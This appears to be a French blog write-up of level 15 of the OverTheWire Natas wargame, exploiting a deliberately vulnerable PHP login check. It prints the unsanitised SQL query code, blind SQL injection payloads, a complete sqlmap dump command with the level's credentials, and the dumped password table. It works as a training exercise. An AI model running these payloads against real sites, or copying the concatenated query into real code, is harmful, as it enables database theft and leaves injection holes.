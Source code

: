 ```yaml
---
layout: post
title: Wargame Natas - Writeup Level 15
description: La solution du level 15 du wargame Natas qui s'avère être une faille de type blind SQL injection.
categories: hacking
tags: [natas, wargame, blind sqlinjection]
photo: overthewire_logo.png
comments: true
---
```


Il y a quelque temps je me suis penché sur le wargame [Natas](http://www.overthewire.org/wargames/natas) présent sur le site  [overthewire.org](http://www.overthewire.org), qui permet de s'initier à la sécurité web. Les épreuves sont pour la plupart assez simples et ne devrait pas poser de problèmes à ceux qui ont l'habitude des épreuves de ce genre là. Pour ceux que ça intéresse j'ai mis à disposition les solutions des épreuves précédentes sur le [wiki](http://wiki.zenk-security.com/doku.php?id=natas_wargame) de ZenkSecurity.

J'ai choisi de rédiger le writeup du level 15 pour montrer que la bonne maîtrise d'un outil peut faire gagner pas mal de temps, en l’occurrence nous allons utiliser sqlmap qui est un des outils les plus populaires pour exploiter les failles de type SQL injection.

L'épreuve se présent sous la forme d'un simple formulaire permettant de vérifier l'existence d'un utilisateur dans la base de données :

![Natas1](/img/blog_img/natas15_1.png)

Lorsque que l'on valide le formulaire un message nous indique si oui ou non l'utilisateur est présent :

![Natas1](/img/blog_img/natas15_2.png)

On suppose qu'il va falloir récupérer les informations de l'utilisateur "natas16" puisqu'il existe.

Jetons un oeil au code source :

{% highlight php linenos %}
<?php
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>
{% endhighlight %}

On apprend tout d'abord que les informations sont stockées dans une table nommée "users" et qui comprend deux colonnes, "username" et "password". Le flag pour le prochain niveau correspond très probablement au mot de passe de l'utilisateur natas16.

On remarque qu'il est possible de modifier la requête SQL en manipulant le paramètre "username" puisque ce dernier n'est pas filtré. Malheureusement on ne va pas pouvoir directement récupérer les informations présente en base puisque la seule informations que nous est fournis est si oui ou non l'utilisateur existe.

Pour arriver à nos fin nous allons utiliser une technique appelé Blind SQL injection, un exemple est plus parlant :

    natas16" and 1=2# // This user doesn't exist.
    natas16" and 1=1# //  This user exist.
    natas16" and substr(password,1,1)='4'# // This user doesn't exist.
    natas16" and substr(password,1,1)='3'# //  This user exist.

On peut donc récupérer caractère par caractère le mot de passe de l'utilisateur natas16 avec un petit script, mais comme je suis feignant on va utiliser sqlmap avec les options qui vont bien:

    sqlmap.py
    -u "http://natas15.natas.labs.overthewire.org/"
    --string="This user exists"
    --technique=B
    --auth-type=Basic
    --auth-cred=natas15:m2azll7JH6HS8Ay3SOjG3AGGlDGTJSTV
    --data "username=natas16"
    -D natas15
    -T users
    -C username,password
    --dump
    --level=5
    --risk=3

Après quelques minutes vous devriez obtenir ceci :

    +----------------------------------+----------+
    | password                         | username |
    +----------------------------------+----------+
    | hROtsfM734                       | alice    |
    | 6P151OntQe                       | bob      |
    | HLwuGKts2w                       | charlie  |
    | 3VfCzgaWjEAcmCQphiEPoXi9HtlmVr3L | natas16  |
    +----------------------------------+----------+

Et une épreuve validée de plus :)

Pour plus d'info concernant les options de sqlmap reportez vous à la [documentation](https://github.com/sqlmapproject/sqlmap/wiki/Usage).

Et si vous voulez voir l'exécution du script en direct c'est par ici :

<script type="text/javascript" src="http://ascii.io/a/1623.js" id="asciicast-1623"> </script>